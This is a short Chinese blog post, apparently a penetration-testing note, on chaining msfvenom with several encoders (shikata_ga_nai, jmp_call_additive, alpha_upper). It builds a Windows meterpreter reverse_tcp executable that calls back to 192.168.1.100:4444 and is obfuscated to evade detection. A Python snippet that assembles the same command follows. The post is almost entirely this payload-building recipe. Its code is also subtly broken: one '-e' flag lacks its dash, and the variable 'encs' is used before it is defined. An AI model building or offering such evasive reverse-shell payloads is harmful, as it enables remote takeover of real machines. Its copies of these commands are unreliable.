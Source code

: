 ```yaml
---
title: "msfvenom 多重编码"
date: 2018-06-20T00:00:00+08:00
draft: false
author: "X1r0z"

tags: ["metasploit"]
categories: ['内网渗透']

hiddenFromHomePage: false
hiddenFromSearch: false

toc:
  enable: true
math:
  enable: false
lightgallery: false
---
```


除第一次需要指定 payload 外, 其他都用 `-p -` 代替, 多重编码需要指定 `--platform` 和 `-a` 并用 `-f raw` 输出, 最后一次编码更改为 `-f exe`

<!--more-->

```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.100 LPORT=4444 -e x86/shikata_ga_nai -i 5 -f raw | msfvenom -p - -e x86/jmp_call_additive -i 2 -a x86 --platform windows -f raw | msfvenom -p - e x86/alpha_upper -i 1 -a x86 --platform windows -f exe > msf.exe
```

Python 实现

```
args = 'msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.100 LPORT=4444 '
encoders = {'x86/shikata_ga_nai': '5', 'x86/jmp_call_additive': '2', 'x86/alpha_upper': '1'}

for c in list(encoders.keys())[:-1]:
	encs += '-e ' + c + ' -i ' + encoders.get(c) + ' -a x86 --platform windows -f raw | msfvenom -p - '

encs += '-e ' + list(encoders.keys())[-1] + ' -i ' + encoders.get(list(encoders.keys())[-1]) + ' -a x86  --platform windows '
args += encs + '-f exe > msf.exe'
```